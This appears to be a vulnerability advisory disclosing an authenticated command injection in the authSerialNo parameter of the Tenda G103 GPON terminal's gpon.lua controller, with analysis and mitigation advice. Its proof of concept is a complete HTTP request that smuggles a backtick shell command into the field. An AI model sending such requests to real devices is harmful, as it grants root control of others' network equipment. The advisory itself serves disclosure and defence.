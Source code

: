 # Tenda G103 Command Injection Vulnerability in `authSerialNo` Parameter of `action_set_net_settings` (gpon.lua)

## Overview

A command injection vulnerability exists in the `action_set_net_settings` function within the `gpon.lua` file of Tenda G103 GPON optical network terminals. This vulnerability is caused by improper sanitization of the `authSerialNo` parameter, which is directly concatenated into system commands without validation. Authenticated attackers can exploit this flaw to execute arbitrary system commands with root privileges, potentially leading to full device compromise.

The environment can be simulated using FirmAE:



![FirmAE Emulation 1](./imgs/1.png)



![FirmAE Emulation 2](./imgs/2.png)

## Details



*   **Vendor**: Tenda

*   **Product**: Tenda G103 GPON Optical Network Terminal

*   **Firmware Version**: US\_G103V1.0la\_V1.0.0.5\_TDC01

*   **Firmware Download**: [https://tenda.com](https://tenda.com.cn/material/show/2615)[.cn/m](https://tenda.com.cn/material/show/2615)[ateri](https://tenda.com.cn/material/show/2615)[al/sh](https://tenda.com.cn/material/show/2615)[ow/26](https://tenda.com.cn/material/show/2615)[15](https://tenda.com.cn/material/show/2615)

*   **Affected Component**: `gpon.lua` (LuCI controller)

*   **Affected Function**: `action_set_net_settings`

*   **Affected Parameter**: `authSerialNo`

*   **Vulnerability Type**: Command Injection

*   **Impact**: Arbitrary command execution, device serial number tampering, sensitive data leakage, or complete device takeover

*   **Reported by**: n0ps1ed (n0ps1edzz@gmail.com)

## Vulnerability Analysis

The `action_set_net_settings` function handles the `authSerialNo` parameter, which is used to configure the authentication serial number for GPON device identification. Critical flaw: the `authSerialNo` parameter is directly passed to system commands such as `tdtool`, `fw_setenv`, and `uci` without any sanitization or input validation.

Key vulnerable code in `gpon.lua`:


![Vulnerable Code Snippet](./imgs/3.png)


Attackers can inject arbitrary commands by embedding shell metacharacters (e.g., backticks `` ` ``, semicolons `;`, or `&&`) in the `authSerialNo` parameter. Since these characters are not filtered, the injected payload is parsed and executed by the system shell when the concatenated commands run.

## Proof of Concept (PoC)

### Execute `touch` to Create a Test File



```
POST /cgi-bin/luci/;stok=c64c61744085716b924f3c034266e7c1/admin/gpon/set-net-settings HTTP/1.1
Host: 192.168.0.1
Content-Length: 46
Cache-Control: max-age=0
Accept-Language: en-US,en;q=0.9
Origin: http://192.168.0.1
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/129.0.6668.71 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,\*/\*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://192.168.0.1/cgi-bin/luci/;stok=c64c61744085716b924f3c034266e7c1/admin/system/
Accept-Encoding: gzip, deflate, br
Cookie: isLogin=true; isLogin=true; sysauth=ca14c877a3df6cdc740bf4bbef3f02c1; sysauth=; repeatTimes=0; isLogin=true
Connection: keep-alive

authSerialNo=1\`touch\$IFS/tmp/authSerialNo.txt\`
```

#### Execution Steps:



1.  Send the POST request above with a valid `stok` (session token) and authentication cookies.

2.  Access the device (via CLI, telnet, or another injected command) and verify the existence of `/tmp/authSerialNo.txt`.

#### Expected Result:

The file `/tmp/authSerialNo.txt` is created, confirming successful execution of the injected `touch` command.



![PoC Result 1](./imgs/4.png)



![PoC Result 2](./imgs/5.png)

## Mitigation Recommendations



1.  **Input Sanitization**: Implement strict validation for `authSerialNo` to allow only alphanumeric characters (consistent with typical serial number formats).

2.  **Command Escaping**: Use `luci.util.shellquote` to escape the parameter before concatenating it into system commands (e.g., `string.format("/usr/bin/tdtool 1 %s", luci.util.shellquote(authSerialNo))`).

3.  **Least Privilege**: Restrict the privileges of processes executing these commands to minimize the impact of successful exploitation.
